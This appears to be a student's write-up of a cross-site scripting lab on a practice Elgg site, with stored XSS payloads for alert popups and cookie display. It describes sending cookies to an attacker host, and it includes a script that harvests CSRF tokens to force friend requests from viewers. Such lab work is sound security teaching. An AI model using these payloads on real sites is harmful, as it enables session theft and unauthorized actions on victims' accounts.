






# Cross-Site Scripting (XSS)

## Question 1

### Task 1
In this task, we logged in as Boby. The goal of the task is to change the "About Me" section in the user profile, so that it executes a script that will show a popup saying "XSS".
We went on Edit Profile and clicked on Edit HTML on the "About Me" section. We inserted the following and saved the changes:
```
<script>alert('XSS');</script>
```
Then, when we opened up Boby's profile, an alert was shown with the "XSS" message. This demonstrated the presence of an XSS vulnerability in the website.
<br>  <br>

### Task 2
This task is very similar to the previous one, but this time we want the popup to display the user's cookies. We inserted the following in the "About Me" section:
```
<script>alert(document.cookie);</script>
```
Then, when we opened up Boby's profile, an alert was shown with the cookies.
<br>  <br>

### Task 3
In this task, instead of just displaying the user's cookies in a popup, we want to send the user's cookies to the attacker's server, by sending an HTTP request (GET). It sends the cookies to the port  5555 of the attacker's machine (with IP address 10.9.0.1). We changed Boby's "About Me" section to this:
```
<script>document.write('');
</script>
```
This way, whenever someone opens Boby's profile, the browser will try to load the image from the specified source, but it will instead send HTTP request (GET) to the atacker's machine, sending the user's cookies. In the print below, we can see the HTTP request with the user's cookies:
<br>  <br>

Then, we switched to Alice's account and visited Boby's profile. We can see that the cookies are being sent to the attacker's machine:

<br>  <br>

This task demonstrated how an XSS vulnerability can be exploited to steal user cookies, emphasizing the importance of proper input sanitization.

### Task 4
In this task, we want to make it so that when a user enters Samy's profile, it sends him a friend request. So, we went to Samy's profile and clicked on "Add Friend". We detected that a HTTP request (GET) was sent:
<br>  <br>
After we got this URL from the HTTP request, we filled out the script that we were going to inject on Samy's profile.
```
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
var sendurl= "http://www.seed-server.com/action/friends/add?friend=59" + ts + token
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```
In this script, `ts` is the timestamp of the request and `token` is a security measure used to validate the authenticity of the request. <br>
Then, we logged into Samy's account and changed his "About me" to the script above. After that, we logged into Alice's account and went to Samy's profile. We can see that we sent an HTTP request to add him as a friend.
<br>  <br>
After that, we reloaded the page and the "Add friend" button changed, meaning that we added him as a friend, without ever clicking on the button.
<br>  <br>
This task demonstrated how XSS vulnerabilities can automate actions like sending friend requests, highlighting the importance of securing web applications against such exploits.

#### Task 4 - Question 1

Lines 1 and 2 are used to capture the security tokens required to make the friend request.
- Line 1: This line gets the timestamp value (a unique value generated to protect against replay attacks, which occur when an attacker intercepts and reuses a valid request to perform unauthorized actions). It has a prefix to append to the URL.
- Line 2: This line gets the security token that ensures the request is authentic and prevents unauthorized actions. It has a prefix to append to the URL.

#### Task 4 - Question 2

No, in editor mode I wouldn't be able to perform the attack, because the input is sanitized. I tried to inject this simple script:
```
<script> alert("XSS"); </script>
```
And it was sanitized to:
```
<p>&lt;script&gt; alert("XSS"); &lt;/script&gt;</p>
```

## Question 2

The attacks in these tasks are classified as Stored XSS, because the malicious scripts were inserted into the 'About Me' section of user profiles and stored on the server. As a result, the script remained persistent and was executed each time a user visited the affected profile.
